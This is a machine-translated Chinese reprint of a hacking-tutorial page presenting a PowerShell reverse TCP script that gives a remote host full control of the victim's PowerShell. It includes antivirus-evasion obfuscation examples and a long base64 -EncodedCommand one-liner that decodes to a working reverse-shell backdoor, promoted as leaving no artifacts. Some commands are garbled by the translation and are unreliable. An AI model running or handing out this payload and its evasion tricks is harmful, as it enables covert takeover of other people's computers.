



# Powershell-Reverse-TCP:用于连接远程主机的 Powershell 脚本

> 原文：<https://kalilinuxtutorials.com/powershell/>

**PowerShell** 用于连接远程主机的脚本。远程主机将完全控制客户端的 PowerShell 及其所有底层命令。

在 Windows 10 企业操作系统(64 位)上使用 PowerShell v5.1.18362.752 进行了测试。为教育目的制作的。希望有帮助！

**怎么跑？**

**更改脚本中的 IP 地址和端口号。**

*   从 [\src\](https://github.com/ivan-sincek/powershell-reverse-tcp/tree/master/src) 打开 PowerShell 并运行如下所示的命令。
*   设置执行策略:

**Set-ExecutionPolicy 无限制**

*   运行脚本:

**。\powershell_reverse_tcp.ps1**

*   或者从 PowerShell 或命令提示符运行以下命令:

**PowerShell-execution policy Unrestricted-File。\powershell_reverse_tcp.ps1**

**也可阅读-[sky wrapper:发现可疑创作形式的工具](https://kalilinuxtutorials.com/skywrapper/)**

**PowerShell 混淆**

*   试图通过混淆你的脚本来绕过防病毒或其他一些安全机制。
*   你可以在下面的例子中看到这种混淆。
*   原始 PowerShell 命令:

**(新-对象网。WebClient)。下载文件($url，$out)**

*   混淆的 PowerShell 命令:

**&(` g ` c ` m * ke-E *)'(&(` g ` c ` m * ew-O *)` n ` E ` t ` . ` w ` E ` b ` c ` l ` I ` E ` n ` t)。" ` D`O`W`N`L`O`A`D`F`I`L`E"($url，$out)'**

*   **查看 PowerShell 脚本原文[此处](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp.ps1)和混淆的[此处](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp_obfuscated.ps1)。**
*   除了[手动混淆](https://github.com/ivan-sincek/powershell-reverse-tcp/blob/master/src/powershell_reverse_tcp_manual.ps1)之外，PowerShell 原脚本也用[调用混淆](https://github.com/danielbohannon/Invoke-Obfuscation)进行了混淆。归功于作者！
*   在互联网上搜索其他方法和混淆技术。

*   另外，由于 PowerShell 不断更新，一些正则表达式(例如`***ke-E***`)可能会由于多个方法匹配同一个表达式而开始抛出错误，因此需要更好地指定表达式。

**PowerShell 编码命令**

*   如果您不想留下任何工件，请使用下面的一行程序。
*   编码脚本将提示输入。请看我另一个[项目](https://github.com/ivan-sincek/invoker/blob/master/ps/powershell_reverse_tcp.ps1)中略有改动的脚本。
*   要运行 PowerShell 编码的命令，请从 PowerShell 或命令提示符运行以下命令:

PowerShell -ExecutionPolicy Unrestricted -EncodedCommand JABhAGQAZAByACAAPQAgACQAKABSAGUAYQBkAC0ASABvAHMAdAAgAC0AUAByAG8AbQBwAHQAIAAiAEUAbgB0AGUAcgAgAEkAUAAgAGEAZABkAHIAZQBzAHMAIgApAC4AVAByAGkAbQAoACkAOwANAAoAVwByAGkAdABlAC0ASABvAHMAdAAgACIAIgA7AA0ACgAkAHAAbwByAHQAIAA9ACAAJAAoAFIAZQBhAGQALQBIAG8AcwB0ACAALQBQAHIAbwBtAHAAdAAgACIARQBuAHQAZQByACAAcABvAHIAdAAgAG4AdQBtAGIAZQByACIAKQAuAFQAcgBpAG0AKAApADsADQAKAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiACIAOwANAAoAaQBmACAAKAAkAGEAZABkAHIALgBMAGUAbgBnAHQAaAAgAC0AbAB0ACAAMQAgAC0AbwByACAAJABwAG8AcgB0AC4ATABlAG4AZwB0AGgAIAAtAGwAdAAgADEAKQAgAHsADQAKAAkAVwByAGkAdABlAC0ASABvAHMAdAAgACIAQgBvAHQAaAAgAHAAYQByAGEAbQBlAHQAZQByAHMAIABhAHIAZQAgAHIAZQBxAHUAaQByAGUAZAAiADsADQAKAH0AIABlAGwAcwBlACAAewANAAoACQBXAHIAaQB0AGUALQBIAG8AcwB0ACAAIgAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAiADsADQAKAAkAVwByAGkAdABlAC0ASABvAHMAdAAgACIAIwAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAIgA7AA0ACgAJAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiACMAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAUABvAHcAZQByAFMAaABlAGwAbAAgAFIAZQB2AGUAcgBzAGUAIABUAEMAUAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAjACIAOwANAAoACQBXAHIAaQB0AGUALQBIAG8AcwB0ACAAIgAjACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAGIAeQAgAEkAdgBhAG4AIABTAGkAbgBjAGUAawAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIwAiADsADQAKAAkAVwByAGkAdABlAC0ASABvAHMAdAAgACIAIwAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAIgA7AA0ACgAJAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiACMAIABHAGkAdABIAHUAYgAgAHIAZQBwAG8AcwBpAHQAbwByAHkAIABhAHQAIABnAGkAdABoAHUAYgAuAGMAbwBtAC8AaQB2AGEAbgAtAHMAaQBuAGMAZQBrAC8AcABvAHcAZQByAHMAaABlAGwAbAAtAHIAZQB2AGUAcgBzAGUALQB0AGMAcAAuACAAIAAjACIAOwANAAoACQBXAHIAaQB0AGUALQBIAG8AcwB0ACAAIgAjACAARgBlAGUAbAAgAGYAcgBlAGUAIAB0AG8AIABkAG8AbgBhAHQAZQAgAGIAaQB0AGMAbwBpAG4AIABhAHQAIAAxAEIAcgBaAE0ANgBUADcARwA5AFIATgA4AHYAYgBhAGIAbgBmAFgAdQA0AE0ANgBMAHAAZwB6AHQAcQA2AFkAMQA0AC4AIAAgACAAIwAiADsADQAKAAkAVwByAGkAdABlAC0ASABvAHMAdAAgACIAIwAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAIgA7AA0ACgAJAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACMAIwAjACIAOwANAAoACQAkAHMAbwBjAGsAZQB0ACAAPQAgACQAbgB1AGwAbAA7AA0ACgAJACQAcwB0AHIAZQBhAG0AIAA9ACAAJABuAHUAbABsADsADQAKAAkAJABiAHUAZgBmAGUAcgAgAD0AIAAkAG4AdQBsAGwAOwANAAoACQAkAHcAcgBpAHQAZQByACAAPQAgACQAbgB1AGwAbAA7AA0ACgAJACQAZABhAHQAYQAgAD0AIAAkAG4AdQBsAGwAOwANAAoACQAkAHIAZQBzAHUAbAB0ACAAPQAgACQAbgB1AGwAbAA7AA0ACgAJAHQAcgB5ACAAewANAAoACQAJACMAIABjAGgAYQBuAGcAZQAgAHQAaABlACAAaABvAHMAdAAgAGEAZABkAHIAZQBzAHMAIABhAG4AZAAvAG8AcgAgAHAAbwByAHQAIABuAHUAbQBiAGUAcgAgAGEAcwAgAG4AZQBjAGUAcwBzAGEAcgB5AA0ACgAJAAkAJABzAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABjAHAAQwBsAGkAZQBuAHQAKAAkAGEAZABkAHIALAAgACQAcABvAHIAdAApADsADQAKAAkACQAkAHMAdAByAGUAYQBtACAAPQAgACQAcwBvAGMAawBlAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwANAAoACQAJACQAYgB1AGYAZgBlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEIAeQB0AGUAWwBdACAAMQAwADIANAA7AA0ACgAJAAkAJABlAG4AYwBvAGQAaQBuAGcAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFQAZQB4AHQALgBBAHMAYwBpAGkARQBuAGMAbwBkAGkAbgBnADsADQAKAAkACQAkAHcAcgBpAHQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAoACQAcwB0AHIAZQBhAG0AKQA7AA0ACgAJAAkAJAB3AHIAaQB0AGUAcgAuAEEAdQB0AG8ARgBsAHUAcwBoACAAPQAgACQAdAByAHUAZQA7AA0ACgAJAAkAVwByAGkAdABlAC0ASABvAHMAdAAgACIAQgBhAGMAawBkAG8AbwByACAAaQBzACAAdQBwACAAYQBuAGQAIAByAHUAbgBuAGkAbgBnAC4ALgAuACIAOwANAAoACQAJAGQAbwAgAHsADQAKAAkACQAJACQAdwByAGkAdABlAHIALgBXAHIAaQB0AGUAKAAiAFAAUwA+ACIAKQA7AA0ACgAJAAkACQBkAG8AIAB7AA0ACgAJAAkACQAJACQAYgB5AHQAZQBzACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHUAZgBmAGUAcgAsACAAMAAsACAAJABiAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoACkAOwANAAoACQAJAAkACQBpAGYAIAAoACQAYgB5AHQAZQBzACAALQBnAHQAIAAwACkAIAB7AA0ACgAJAAkACQAJAAkAJABkAGEAdABhACAAPQAgACQAZABhAHQAYQAgACsAIAAkAGUAbgBjAG8AZABpAG4AZwAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHUAZgBmAGUAcgAsACAAMAAsACAAJABiAHkAdABlAHMAKQA7AA0ACgAJAAkACQAJAH0AIABlAGwAcwBlACAAewANAAoACQAJAAkACQAJACQAZABhAHQAYQAgAD0AIAAiAGUAeABpAHQAIgA7AA0ACgAJAAkACQAJAH0ADQAKAAkACQAJAH0AIAB3AGgAaQBsAGUAIAAoACQAcwB0AHIAZQBhAG0ALgBEAGEAdABhAEEAdgBhAGkAbABhAGIAbABlACkAOwANAAoACQAJAAkAaQBmACAAKAAkAGQAYQB0AGEALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMAAgAC0AYQBuAGQAIAAkAGQAYQB0AGEAIAAtAG4AZQAgACIAZQB4AGkAdAAiACkAIAB7AA0ACgAJAAkACQAJAHQAcgB5ACAAewANAAoACQAJAAkACQAJACQAcgBlAHMAdQBsAHQAIAA9ACAASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGEAdABhACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAOwANAAoACQAJAAkACQB9ACAAYwBhAHQAYwBoACAAewANAAoACQAJAAkACQAJACQAcgBlAHMAdQBsAHQAIAA9ACAAJABfAC4ARQB4AGMAZQBwAHQAaQBvAG4ALgBJAG4AbgBlAHIARQB4AGMAZQBwAHQAaQBvAG4ALgBNAGUAcwBzAGEAZwBlADsADQAKAAkACQAJAAkAfQANAAoACQAJAAkACQAkAHcAcgBpAHQAZQByAC4AVwByAGkAdABlAEwAaQBuAGUAKAAkAHIAZQBzAHUAbAB0ACkAOwANAAoACQAJAAkACQBDAGwAZQBhAHIALQBWAGEAcgBpAGEAYgBsAGUAIAAtAE4AYQBtAGUAIAAiAGQAYQB0AGEAIgA7AA0ACgAJAAkACQB9AA0ACgAJAAkAfQAgAHcAaABpAGwAZQAgACgAJABkAGEAdABhACAALQBuAGUAIAAiAGUAeABpAHQAIgApADsADQAKAAkAfQAgAGMAYQB0AGMAaAAgAHsADQAKAAkACQBXAHIAaQB0AGUALQBIAG8AcwB0ACAAJABfAC4ARQB4AGMAZQBwAHQAaQBvAG4ALgBJAG4AbgBlAHIARQB4AGMAZQBwAHQAaQBvAG4ALgBNAGUAcwBzAGEAZwBlADsADQAKAAkAfQAgAGYAaQBuAGEAbABsAHkAIAB7AA0ACgAJAAkAaQBmACAAKAAkAHMAbwBjAGsAZQB0ACAALQBuAGUAIAAkAG4AdQBsAGwAKQAgAHsADQAKAAkACQAJACQAcwBvAGMAawBlAHQALgBDAGwAbwBzAGUAKAApADsADQAKAAkACQAJACQAcwBvAGMAawBlAHQALgBEAGkAcwBwAG8AcwBlACgAKQA7AA0ACgAJAAkAfQANAAoACQAJAGkAZgAgACgAJABzAHQAcgBlAGEAbQAgAC0AbgBlACAAJABuAHUAbABsACkAIAB7AA0ACgAJAAkACQAkAHMAdAByAGUAYQBtAC4AQwBsAG8AcwBlACgAKQA7AA0ACgAJAAkACQAkAHMAdAByAGUAYQBtAC4ARABpAHMAcABvAHMAZQAoACkAOwANAAoACQAJAH0ADQAKAAkACQBpAGYAIAAoACQAYgB1AGYAZgBlAHIAIAAtAG4AZQAgACQAbgB1AGwAbAApACAAewANAAoACQAJAAkAJABiAHUAZgBmAGUAcgAuAEMAbABlAGEAcgAoACkAOwANAAoACQAJAH0ADQAKAAkACQBpAGYAIAAoACQAdwByAGkAdABlAHIAIAAtAG4AZQAgACQAbgB1AGwAbAApACAAewANAAoACQAJAAkAJAB3AHIAaQB0AGUAcgAuAEMAbABvAHMAZQAoACkAOwANAAoACQAJAAkAJAB3AHIAaQB0AGUAcgAuAEQAaQBzAHAAbwBzAGUAKAApADsADQAKAAkACQB9AA0ACgAJAAkAaQBmACAAKAAkAGQAYQB0AGEAIAAtAG4AZQAgACQAbgB1AGwAbAApACAAewANAAoACQAJAAkAQwBsAGUAYQByAC0AVgBhAHIAaQBhAGIAbABlACAALQBOAGEAbQBlACAAIgBkAGEAdABhACIAOwANAAoACQAJAH0ADQAKAAkACQBpAGYAIAAoACQAcgBlAHMAdQBsAHQAIAAtAG4AZQAgACQAbgB1AGwAbAApACAAewANAAoACQAJAAkAQwBsAGUAYQByAC0AVgBhAHIAaQBhAGIAbABlACAALQBOAGEAbQBlACAAIgByAGUAcwB1AGwAdAAiADsADQAKAAkACQB9AA0ACgAJAH0ADQAKAH0ADQAKAA==

*   要从 PowerShell 脚本生成 PowerShell 编码的命令，请运行以下 PowerShell 命令:

**[Convert]::to base 64 string([Text。编码]::Unicode。GetBytes([IO。file]::read all text($ script)))**

**图像**

[**Download**](https://github.com/ivan-sincek/powershell-reverse-tcp)